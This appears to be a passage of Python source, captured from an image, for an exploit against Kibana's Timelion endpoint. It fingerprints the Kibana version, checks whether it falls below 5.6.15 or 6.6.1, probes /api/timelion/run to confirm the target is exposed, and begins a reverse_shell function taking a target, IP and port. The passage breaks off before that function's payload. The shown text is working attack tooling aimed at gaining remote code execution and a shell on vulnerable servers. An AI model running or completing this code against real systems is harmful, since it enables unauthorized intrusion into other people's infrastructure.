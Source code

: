```
        'Referer': url,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
    url = "{}{}".format(url.rstrip("/"), "/app/kibana")
    r = requests.get(url, verify=False, headers=headers, timeout=30)
    patterns = ['"version":"(.*?)",', '"version":"(.*?)",']
    for pattern in patterns:
        match = re.findall(pattern, r.content)
        if match:
            return match[0]
    return '9.9.9'


def version_compare(standard_version, compare_version):
    try:
        sc1 = StrictVersion(standard_version[0])
        sc2 = StrictVersion(standard_version[1])
        cc = StrictVersion(compare_version)
    except ValueError:
        print("[-] ERROR : kibana version compare failed !")
        return False

    if sc1 > cc or (StrictVersion("6.0.0") <= cc and sc2 > cc):
        return True
    return False


def verify(url):
    global version

    if not version or not version_compare(["5.6.15", "6.6.1"], version):
        return False
    headers = {
        'Content-Type': 'application/json;charset=utf-8',
        'Referer': url,
        'kbn-version': version,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
    data = '{"sheet":[".es(*)"],"time":{"from":"now-1m","to":"now","mode":"quick","interval":"auto","timezone":"Asia/Shanghai"}}'
    url = "{}{}".format(url.rstrip("/"), "/api/timelion/run")
    r = requests.post(url, data=data, verify=False, headers=headers, timeout=20)
    if r.status_code == 200 and 'application/json' in r.headers.get('content-type', '') and '"seriesList"' in r.content:
        return True
    else:
        return False


def reverse_shell(target, ip, port):
    random_name = "".join(random.sample('qwertyuiopasdfghjkl', 8))
    headers = {
        'Content-Type': 'application/json;charset=utf-8',
        'kbn-version': version,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
```